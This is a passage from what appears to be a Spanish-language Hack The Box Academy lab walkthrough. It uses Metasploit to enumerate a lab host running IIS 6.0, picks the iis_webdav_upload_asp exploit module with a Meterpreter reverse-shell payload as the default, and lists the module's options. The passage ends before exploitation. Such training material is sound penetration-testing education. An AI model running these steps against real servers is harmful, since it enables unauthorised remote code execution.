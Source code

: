 ```
-------      ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.15             Unknown                    device

msf6 > services

Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
10.10.10.15  80    tcp    http  open   Microsoft IIS httpd 6.0

```

A continuación, buscamos información sobre los servicios que se ejecutan en este cuadro. Específicamente, queremos explorar el puerto 80 y qué tipo de servicio web está alojado allí.

![](https://academy.hackthebox.com/storage/modules/39/S12_SS01.png)

Notamos que es un sitio web en construcción, que no se relaciona con la web para ver aquí. Sin embargo, observando tanto el final de la página web como el resultado del escaneo NMAP más de cerca, notamos que el servidor se está ejecutando`Microsoft IIS httpd 6.0`. Así que avanzamos nuestra investigación en esa dirección, buscando vulnerabilidades comunes para esta versión de IIS. Después de una búsqueda, encontramos el siguiente marcador para una vulnerabilidad generalizada:`CVE-2017-7269`. También tiene un módulo de metasploit desarrollado para él.

### **MSF - Buscando exploit**

Meterpréter

```
msf6 > search iis_webdav_upload_asp

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution

msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host

Payload options (windows/meterpreter/reverse_tcp):
```